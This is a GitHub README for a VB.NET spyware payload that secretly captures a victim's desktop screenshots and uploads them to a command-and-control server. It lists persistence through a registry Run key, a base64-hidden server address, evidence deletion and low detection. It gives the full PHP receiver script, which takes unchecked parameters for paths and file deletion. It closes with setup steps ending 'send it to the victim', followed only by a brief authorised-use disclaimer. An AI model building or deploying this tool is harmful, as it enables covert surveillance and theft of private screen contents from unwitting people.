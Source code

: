 <p align="center">
  <img src="https://i.ibb.co/B4WbGyq/Screenshot-11.png">  
</p>
<p align="center">
<b> Silent Screenshot Capture | Post Exploitation Payload | VB.NET </b>
</p>
<p align="center">
 A simple payload to take the screenshot of victims desktop and upload it to the C&C.
</p>

## Features:

 - Persistent (Using Registry Run Key)
 - Works in background 
 - Less Code Less Bugs and Less Detection ;)
 - Deletes the screenshot from disk after upload it to C&C
 - C&C server in base64 
 - Upload screenshots in organized way on C&C
 - No port forwarding needed! works with a single php file
 - [TODO] Machine Information 
 - [TODO] Encryption 
 - [TODO] Set interval remotely from C&C

## Installation & Usage:
-   Clone this repository.
- A webhosting i recommend [namecheap](https://www.namecheap.com/) 
- Goto your public_html folder and make new [PHP](https://en.wikipedia.org/wiki/PHP) file and put below code in it
```
<?php
$del = $_GET["dellog"];
$folder = $_GET["folder"];
mkdir($folder,0777);
$file = $_GET["path"];
if (!empty($_FILES["file"])){
move_uploaded_file($_FILES["file"]["tmp_name"],
      $file . "/" . $_FILES["file"]["name"]);
}
unlink($del);
?>
```
 - Open the project in Visual Studio and the edit below variable in source code 
```
Dim server As String = BaseDecode1("your server address here in base64 encoded") 
```
 - and edit this variable below as well
```
Dim php As String = "yourphpfilename.php?" & "folder="
```
 - Just compile it and send it to the victim thats all !!
 
 
 ## Disclaimer:
**This tool is supposed to be used only on authorized systems. Any unauthorized use of this tool without explicit permission is illegal.**

## License:
 [**GNU GENERAL PUBLIC LICENSE**](https://github.com/mrfr05t/Mr.Peter/blob/master/LICENSE) 
 
 
